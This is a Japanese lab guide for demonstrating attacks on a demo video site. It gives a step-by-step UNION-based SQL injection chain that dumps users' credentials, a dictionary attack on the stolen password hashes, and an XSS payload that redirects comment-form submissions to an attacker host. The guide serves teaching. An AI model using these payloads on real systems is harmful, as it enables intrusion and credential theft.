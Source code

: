 # Webサーバー攻撃デモ手順書

## 概要
本手順書は、SQLインジェクションとXSS攻撃のデモンストレーション用です。
**注意: この手順書は教育目的のみに使用し、実際のシステムへの不正アクセスには使用しないでください。**

## 1. SQLインジェクション攻撃デモ

### 1.1 エラーからSQL構造を推測
1 = '1'などを入力すると以下のエラーメッセージが表示される。
```
予期せぬエラーが発生しました: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'%' ORDER BY upload_at DESC' at line 1
```
・このエラーメッセージからわかること
<br>MySQLのエラー表示の特徴→ 構文エラーが起きた付近のSQLトークンをそのまま出力する

%直後にユーザーが入力していない ORDER BY upload_at DESC が現れる→ Webアプリ側がSQL末尾に自動的に ORDER BY を付与していると推測

% はワイルドカードで、通常は LIKE句で使われる→ SQLの末尾が LIKE ‘%入力%’ ORDER BY upload_at DESC であると判断

### 1.2 列数を試行で特定
' AND 1=2 UNION SELECT 1 --'と入力すると以下のエラーメッセージが表示される。
```
予期せぬエラーが発生しました: 1222 (21000): The used SELECT statements have a different number of columns
```
このエラーが出なくなるまで列数を１つずつ増やす
　→今回の場合７列であるため以下でエラーが出なくなる
```sql
' AND 1=2 UNION SELECT 1, 2, 3, 4, 5, 6, 7 --'
 ```

### 1.3 データベース名の取得
動画検索フィールドまたはコメント投稿欄に以下のペイロードを入力：

```sql
' AND 1=2 UNION SELECT 1, 2, DATABASE(), 4, 5, 6, 7 -- '
```

**期待される結果**: データベース名（KouTube）が表示される

### 1.4 テーブル名の取得
次に以下のペイロードを使用してテーブル名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(table_name), 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema = 'KouTube' -- '
```

**期待される結果**: データベース内のテーブル名一覧が表示される

### 1.5 usersテーブルのカラム構造取得
usersテーブルのカラム名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(column_name), 4, 5, 6, 7 FROM information_schema.columns WHERE table_schema = 'KouTube' AND table_name = 'users' -- '
```

**期待される結果**: usersテーブルのカラム名（id, username, password, email等）が表示される

### 1.6 機密情報の取得
ユーザー情報（ユーザー名、パスワード、メールアドレス）を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, CONCAT_WS('\n', username, password, email), 4, 5, 6, 7 FROM users -- '
```

**期待される結果**: 全ユーザーの機密情報が表示される

### 1.7 辞書攻撃によるパスワード解読
1.4で取得したハッシュ化されたパスワードに対して辞書攻撃を実行：

1. **攻撃準備**:
   - 辞書ファイル（a.txt）を用意
   - attacks_jisyo.pyスクリプトを使用

2. **攻撃実行**:
   ```bash
   python3 attacks_jisyo.py
   ```

3. **スクリプトの動作**:
   - 取得したsalt値（例：`$6$O/zgIwlwUdB90Lqq`）を使用
   - 辞書ファイルから候補パスワードを順次試行
   - ハッシュ値が一致したパスワードを特定

**期待される結果**: 平文パスワードが解読され、実際のユーザーアカウントへの不正アクセスが可能になる

## 2. XSS攻撃デモ

### 2.1 攻撃の準備
1. 攻撃者用のWebページ（you.html）を用意
2. 攻撃者のIPアドレスを確認（例：192.168.25.128）

### 2.2 XSSペイロードの投稿
動画のコメント欄に以下のJavaScriptコードを投稿：

```javascript
<script> window.onload = function(){ document.querySelector(".comment-form form").onsubmit = function(){this.action = "http://192.168.25.128/project/projitu_1/static/you.html"; };};</script>
```

### 2.3 攻撃の実行
1. 第三者ユーザーが該当の動画ページにアクセス
2. 第三者ユーザーがコメントを投稿しようとする
3. キーを押すと、フォームのaction属性が攻撃者のサイトに変更される
4. コメント投稿時に攻撃者のサイト（you.html）にリダイレクトされる

## 3. デモ実行時の注意事項

### セキュリティ対策の確認
- 入力値のサニタイゼーション
- SQLクエリのプリペアードステートメント使用
- CSRFトークンの実装
- Content Security Policy (CSP)の設定

### デモ環境の要件
- ローカル環境またはテスト専用環境での実行
- 攻撃対象システムの所有者の許可
- ネットワーク分離された環境での実施

---
**免責事項**: この手順書は教育目的のみに作成されています。実際のシステムに対する不正アクセスや攻撃行為は法的に禁止されており、発見された場合は法的措置の対象となる可能性があります。